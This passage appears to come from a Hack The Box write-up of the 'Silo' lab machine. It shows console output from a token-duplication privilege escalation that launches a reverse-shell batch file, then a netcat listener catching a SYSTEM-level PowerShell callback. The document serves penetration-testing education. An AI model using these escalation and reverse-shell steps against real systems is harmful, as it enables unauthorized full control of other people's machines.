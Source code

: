     CoGet: -2147022986 0
    [+] authresult != -1
    [+] Elevated Token tye:2
    [+] DuplicateTokenEx :1  0
    [+] Duped Token type:1
    [+] Running \temp\rev.bat sessionId 1
    [+] CreateProcessWithTokenW OK
    Auth result: 0
    Return code: 0
    Last error: 0
    

And we catch a callback for a SYSTEM shell:

    
    
    root@kali# nc -lnvp 8085
    listening on [any] 8085 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.82] 49181
    
    PS C:\Windows\system32> whoami
    nt authority\system
    

[](/2018/08/04/htb-silo.html)

